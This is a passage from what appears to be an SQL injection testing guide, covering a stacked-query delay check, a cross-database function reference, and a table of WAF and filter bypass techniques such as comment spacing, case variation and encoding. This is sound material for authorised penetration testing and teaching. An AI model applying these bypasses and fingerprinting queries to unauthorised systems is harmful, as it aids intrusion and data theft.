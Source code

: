 **Note:** MySQL typically disables stacked queries in PHP/mysqli.

**Expected result:**
A 5-second delay proves stacking is enabled.[2]

***

## 11) Database Function Reference

Quick reference for common functions across databases:

| Function | MySQL | MSSQL | PostgreSQL | Oracle |
|----------|-------|-------|------------|--------|
| Database name | `database()` | `DB_NAME()` | `current_database()` | `SELECT name FROM v$database` |
| User | `user()` | `SYSTEM_USER` | `current_user` | `SELECT user FROM dual` |
| Version | `version()` | `@@version` | `version()` | `SELECT banner FROM v$version` |
| Sleep/delay | `SLEEP(n)` | `WAITFOR DELAY '00:00:0n'` | `pg_sleep(n)` | `dbms_lock.sleep(n)` |
| Concatenation | `CONCAT(a,b)` | `a + b` | `a \|\| b` | `a \|\| b` or `CONCAT(a,b)` |

[5][1]

***

## 12) WAF/Filter Bypass Techniques

When input filters or Web Application Firewalls block your payloads:

| Technique | Example |
|-----------|---------|
| Replace spaces | `UNION/**/SELECT` or `UNION+SELECT` |
| Alternative comments | Try `--+`, `#`, `/* */`, or `-- ` (space) |
| Case variation | `UnIoN SeLeCt` instead of `UNION SELECT` |
| String splitting (MySQL) | `CONCAT('ad','min')` |
| String splitting (MSSQL) | `'ad'+'min'` |
| String splitting (PostgreSQL) | `'ad'\|\|'min'` |
| URL encoding | `%27` for `'`, `%22` for `"`, `%23` for `#` |
| Double encoding | `%2527` for `'` |

[7]

***

## 13) Documentation Checklist

Record these details for each successful injection:
